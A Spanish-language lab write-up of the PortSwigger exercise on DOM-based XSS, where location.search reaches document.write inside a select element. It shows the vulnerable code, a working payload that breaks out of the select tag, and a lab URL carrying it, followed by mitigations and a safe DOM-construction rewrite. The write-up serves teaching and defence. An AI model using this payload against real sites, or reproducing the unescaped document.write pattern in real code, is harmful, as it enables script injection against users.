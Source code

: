 
---

# DOM XSS en `document.write` dentro de un elemento `<select>`

## Contexto del laboratorio

- Laboratorio: DOM XSS in document.write sink using source location.search inside a select element.
    
- Descripción: existe una vulnerabilidad de Cross-Site Scripting basada en DOM en la funcionalidad de comprobación de stock. Se utiliza `document.write` para escribir datos controlados por el usuario directamente en la página. La información proviene de `location.search` (la query string de la URL) y se coloca dentro de un `<select>`.
    
- Objetivo: realizar un ataque XSS que rompa el `<select>` y ejecute `alert(0)`.
    

[Ver laboratorio Portswigger](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-document-write-sink-inside-select-element)

## Código vulnerable observado

```js
var stores = ["London","Paris","Milan"];
var store = (new URLSearchParams(window.location.search)).get('storeId');
document.write('<select name="storeId">');
if(store) {
    document.write('<option selected>'+store+'</option>');
}
for(var i=0;i<stores.length;i++) {
    if(stores[i] === store) {
        continue;
    }
    document.write('<option>'+stores[i]+'</option>');
}
document.write('</select>');
```

- La vulnerabilidad radica en que `store` proviene directamente de `location.search` y se concatena sin escapado dentro de `document.write`. Esto permite romper la estructura del `<select>` y ejecutar código JavaScript.
    

## Ejemplo de URL con payload que explota la vulnerabilidad

```
https://0aad00f704c043da8027589f00c900bb.web-security-academy.net/product?productId=2&storeId=%3C/option%3E%3C/select%3E%3Cscript%3Ealert(0)%3C/script%3E
```

## Payload utilizado

```
</option></select><script>alert(0)</script>
```

## Cómo funciona el exploit

1. La query string `storeId` se inserta en la línea:
    

```js
document.write('<option selected>'+store+'</option>');
```

2. Al inyectar `</option></select><script>alert(0)</script>`:
    
    - `</option>` cierra la opción actual.
        
    - `</select>` cierra el select.
        
    - `<script>alert(0)</script>` se ejecuta inmediatamente en la página.
        
3. Como `document.write` escribe directamente en el DOM, la ejecución de `<script>` ocurre de inmediato al cargar la página.
    

## Pasos educativos para reproducir

1. Abrir la página del laboratorio con la URL que contiene el payload.
    
2. Inspeccionar la sección del `<select>` para observar cómo se ha roto la estructura y se ha inyectado el `<script>`.
    
3. Verificar que la alerta se dispara al cargar la página.
    

## Mitigaciones y soluciones

1. **No usar `document.write` con datos controlados por el usuario.**
    
    - En lugar de `document.write`, usar métodos seguros como `createElement`, `appendChild` o `textContent`.
        
2. **Escapar los datos antes de insertarlos en HTML.**
    
    - Por ejemplo, escapar `<`, `>`, `&`, `"`, `'` para que el contenido no pueda romper la estructura del HTML.
        
3. **Validación de parámetros.**
    
    - Permitir únicamente valores esperados en `storeId` (por ejemplo `London`, `Paris`, `Milan`) usando whitelist.
        
4. **Evitar concatenación directa en plantillas.**
    
    - Usar funciones que generen elementos DOM y asignen sus valores de forma segura.
        

## Ejemplo seguro de inserción de options

```js
var stores = ["London","Paris","Milan"];
var store = (new URLSearchParams(window.location.search)).get('storeId');
var select = document.createElement('select');
select.name = 'storeId';

stores.forEach(function(s) {
    var option = document.createElement('option');
    option.textContent = s;
    if (s === store) {
        option.selected = true;
    }
    select.appendChild(option);
});

document.body.appendChild(select);
```

- En este ejemplo, `textContent` asegura que cualquier valor de `storeId` se inserta como texto, evitando XSS.
    

---
